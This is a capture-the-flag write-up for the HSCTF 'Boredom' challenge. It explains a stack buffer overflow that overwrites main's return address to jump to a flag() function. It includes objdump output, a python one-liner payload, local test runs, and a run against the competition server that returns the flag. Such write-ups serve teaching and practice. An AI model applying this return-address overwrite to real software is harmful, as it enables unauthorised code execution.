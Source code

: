 # Boredom

This CTF is a simple stack overflow.

Based on the C code, we have a 200 byte buffer that lives on the stack. In fact, it is the only variable on the stack.
We also know there is a function, called `flag()`, that if called will give us the flag.

So, what address does `flag()` have?

```
$ objdump -t boredom | grep flag
00000000004011d5 g     F .text  000000000000008b              flag
```

IE: `flag()` is at `0x4011d5`.

## The Textbook Solution

`main()` is a regular function.  It has a return value. The epilogue of the function looks something like this:

```asm
leave
ret
```

Where `leave` is equivalent to `mov rsp, rbp; pop rbp` and `ret` is an instruction that is equivalent to `pop rip`.

So, on net, the function epilogue looks like this:

```asm
mov rsp, rbp
pop rbp ; Pop 8 bytes off the stack
pop rip ; Pop another 8 bytes off the stack.
```

For a "by-the-book" stack overflow, you should therefore fill the buffer (200 bytes). Then write 8 more bytes (this value will be popped off the stack and end up in rbp), and finally write 8 bytes representing the target address you wish to jump to (in this case `0x4011d5`).

### Exploit Script:

Here is a simple way to generate an input of 208 dummy bytes, followed by our desired address:

```bash
python -c 'print "U"*208 + "\xd5\x11\x40\x00\x00\x00\x00\x00"'
```

> Note: we don't actually care about corrupting rbp, since we don't need it.
Also, we had to reverse the order of the bytes of our address since x64 processors are little-endian.

## Testing the solution

Since we have a copy of the binary, let's try it out:

```
$ python -c 'print "U"*208 + "\xd5\x11\x40\x00\x00\x00\x00\x00"' | ./boredom
I'm currently bored out of my mind. Give me sumpfink to do!
Give me something to do: Ehhhhh, maybe later.
Segmentation fault (core dumped)
```

> Shit. That didn't work. What the hell?

Well, it turns out that compilers for x64 systems don't *like* allocating **only** 200 bytes on the stack. Normally, they allocate the stack such that it has a 16 byte alignment. If you look closely at the assembly dump of the binary, you'll see that it actually allocates 0xd0 (or 208) bytes for the stack (Note that 208 is a multiple of 16).

Therefore, after our buffer there is an *extra* 8 bytes of allocated but unused memory.

Let's try accounting for those 8 bytes:

```
$ python -c 'print "U"*216 + "\xd5\x11\x40\x00\x00\x00\x00\x00"' | ./boredom
I'm currently bored out of my mind. Give me sumpfink to do!
Give me something to do: Ehhhhh, maybe later.
You're running this locally or I can't access the flag file for some reason.
If this occurs on the remote, ping @PMP#5728 on discord server.
```

**BOOM**. That's better.

> Note: It actually turns out to be pretty tricky to get compilers to emit the code without this alignment requirement (linux on x64 mandates it as part of the calling convention). In principal, gcc has a tunable option for what the stack alignment should be: `-mpreferred-stack-boundary=num` (defaults to 4 for 2^4 byte alignment), but I didn't have any luck lowering it.

## Capture the Flag!

```
$ python -c 'print "U"*216 + "\xd5\x11\x40\x00\x00\x00\x00\x00"' | nc pwn.hsctf.com 5002
I'm currently bored out of my mind. Give me sumpfink to do!
Give me something to do: Ehhhhh, maybe later.
```

> Wait. WHAT? We tested this already.

Ok, so here's the deal. The solution to this challenge is **actually** the textbook example. The binary has been specifically manufactured to behave as-if it didn't have the buffer aligned to a 16-byte boundary. (Presumably by padding or offsetting the buffer slightly such that the 200 byte buffer actually is the last thing on the stack.)

## Capture the Flag (For Realz!)

Ok. So let's try the "textbook" solution:
```
$ python -c 'print "U"*208 + "\xd5\x11\x40\x00\x00\x00\x00\x00"' | nc pwn.hsctf.com 5002
I'm currently bored out of my mind. Give me sumpfink to do!
Give me something to do: Ehhhhh, maybe later.
Hey, that's a neat idea. Here's a flag for your trouble: flag{7h3_k3y_l0n3l1n355_57r1k35_0cff9132}

Now go away.
```

---

Andrew Steadman
